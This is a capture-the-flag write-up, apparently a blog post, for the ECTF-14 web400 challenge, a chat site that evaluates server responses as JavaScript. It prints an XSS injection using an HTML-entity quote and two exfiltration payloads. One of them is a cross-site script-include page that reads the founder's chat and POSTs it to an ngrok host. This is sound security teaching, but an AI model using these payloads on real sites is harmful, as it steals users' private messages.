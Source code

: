 ```yaml
---
layout: post
title: ECTF-14 Web400 Writeup
tags:
- ectf
- writeup
---
```


We recently participated in [ECTF-14](https://github.com/ctfs/write-ups-2014/tree/master/ectf-2014) and it was a great experience. Here's a writeup to the web400 challenge:

### Problem Statement

>The chat feature was added to Facelook website and to test it, founder of the company had sent a message in chat to the admin. Admin reads all the chat messages, but does not reply to anyone. Try to get that chat message and earn the bounty.
>[Annoying Admin]

The challenge consisted of a simple signup and a chat message sending feature, where anyone could send a chat message to anyone. However, on the loading side, the chat message was loaded using Javascript. The code for loading the messages looked like this:

```javascript
function load_messages (id) {
    $.ajax({
    url: "http://212.71.235.214:4050/chat",
    data: {
        sender: id,
    },
    success: function( response ) {
        eval(response);
    }
    });
}
```

The url above responded as the following:

```
$('#chat_234').html('');$('#chat_234').append('dream<br />');
```

Where `dream` was the message I sent. My first attempt was to break out of the append function, and execute my own javascript, by trivially using a single quote. Unfortunately, the single quote was escaped and removed by the backend.

Next, I tried using `&#x27;` instead of a single quote, and it worked:

Message Sent: `&#x27;+alert(1)+&#x27; `
Message received: `$('#chat_234').html('');$('#chat_234').append('dream<br />');$('#chat_234').append(''+alert(1)+'<br />');`

This seemed simple enough to exploit as XSS, so I quickly wrote up my exploit:

$.get('/chat?sender=2', function(data){
  $.post("http://my-server.com/ectf/index.php", {content: data});
});

This utilized the fact that we knew Founder's user id to be `2`. The code worked perfectly fine with my test accounts, but something weird happened when the challenge server (admin) ran it. I would get a `GET` request on the above mentioned url, instead of a POST. Also attempting to generate the URL using concat or + or any operator such as : `"http://my-server.com/index.php?data="+document.cookie` made a request to `http://my-server.com/index.php?data=`. Anything I appended was just ignored, plain and simple.


After attempting to get a POST request with cookie or session data for a lot of time, I realized that the problem was not XSS, but rather a CSRF attack. This was because the data was being loaded in a Javascript request, instead of JSON. Javascript request (using a script tag) can be made across domains, which meant that any website could access the data by using the proper script tag. We just had to add a script tag with its src set to `http://212.71.235.214:4050/chat?sender=2`. This would automatically add the chat message to a div with id `chat_2`.

The only issue was that Admin had to visit our site, with proper cookies, and we know already that admin has been sniffing for links and visiting them. So I wrote up my second (this time working) exploit:

```xml
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <title>ECTF14 web400 exploit</title>
</head>
<body>
  <div id="chat_2"></div>
  <div id="chat_106"></div>
  <script src="http://code.jquery.com/jquery-1.11.0.min.js"></script>
  <script>
    $(document).ready(function(){
      $.getScript("http://212.71.235.214:4050/chat?sender=2");
      setTimeout(function(){
        var text = $('#chat_2').text();
        $.post('http://20c7d53b.ngrok.com/', {content:text});
      }, 1000);
    })
  </script>
</body>
</html>
```


Unfortunately, the exploit did not work on Chrome because Chrome refused to run the script as javascript, because it was being served with a mime-type of `text/html`. It worked in firefox, and I crossed my fingers as I sent out the link to the above page to admin in a chat message. I knew admin user was using PhantomJS to run my javascript (because of the user-agent in numerous GET requests I got earlier). So, I was hopeful that this would work.

I was listening at the url, and sure enough as soon as I sent a link out to this page, admin ran my javascript and I got the flag in a POST request.

The flag was `bad_js_is_vulnerable`.